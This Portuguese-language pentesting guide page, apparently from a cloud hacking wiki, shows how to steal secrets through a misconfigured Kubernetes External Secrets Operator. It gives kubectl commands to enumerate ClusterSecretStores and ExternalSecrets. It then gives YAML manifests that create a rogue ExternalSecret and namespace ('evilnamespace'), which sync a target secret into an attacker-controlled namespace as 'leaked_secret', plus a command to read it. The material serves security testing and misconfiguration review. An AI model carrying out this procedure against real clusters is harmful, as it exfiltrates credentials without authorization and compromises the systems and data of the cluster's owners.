 # Operador de Segredo Externo

**O autor original desta página é** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Esta página fornece algumas dicas sobre como você pode conseguir roubar segredos de um ESO mal configurado ou de uma aplicação que utiliza ESO para sincronizar seus segredos.

## Aviso Legal

A técnica mostrada abaixo só pode funcionar quando certas circunstâncias são atendidas. Por exemplo, depende dos requisitos necessários para permitir que um segredo seja sincronizado em um namespace que você possui / comprometeu. Você precisa descobrir por si mesmo.

## Pré-requisitos

1. Uma posição em um cluster kubernetes / openshift com privilégios de administrador em um namespace
2. Acesso de leitura pelo menos ao ExternalSecret em nível de cluster
3. Descubra se existem rótulos / anotações necessárias ou associação a grupos necessária que permita ao ESO sincronizar seu segredo. Se tiver sorte, você pode roubar livremente qualquer segredo definido.

### Coletando informações sobre o ClusterSecretStore existente

Supondo que você tenha um usuário com direitos suficientes para ler este recurso; comece listando primeiro os _**ClusterSecretStores**_ existentes.
```sh
kubectl get ClusterSecretStore
```
### Enumeração de ExternalSecret

Vamos supor que você encontrou um ClusterSecretStore chamado _**mystore**_. Continue enumerando seus externalsecret associados.
```sh
kubectl get externalsecret -A | grep mystore
```
_Este recurso é limitado ao escopo do namespace, então a menos que você já saiba em qual namespace procurar, adicione a opção -A para procurar em todos os namespaces._

Você deve obter uma lista de externalsecrets definidos. Vamos supor que você encontrou um objeto externalsecret chamado _**mysecret**_ definido e usado pelo namespace _**mynamespace**_. Reúna um pouco mais de informações sobre que tipo de segredo ele contém.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Montando as peças

A partir daqui, você pode obter o nome de um ou vários nomes de segredos (como definido no recurso Secret). Você terá uma saída semelhante a:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Até agora temos:

* Nomeie um ClusterSecretStore
* Nome de um ExternalSecret
* Nome do segredo

Agora que temos tudo o que precisamos, você pode criar um ExternalSecret (e eventualmente fazer patch/criar um novo Namespace para cumprir os pré-requisitos necessários para sincronizar seu novo segredo):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Depois de alguns minutos, se as condições de sincronização forem atendidas, você deve ser capaz de visualizar o segredo vazado dentro do seu namespace.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referências

{% embed url="https://external-secrets.io/latest/" %}

{% embed url="https://github.com/external-secrets/external-secrets" %}
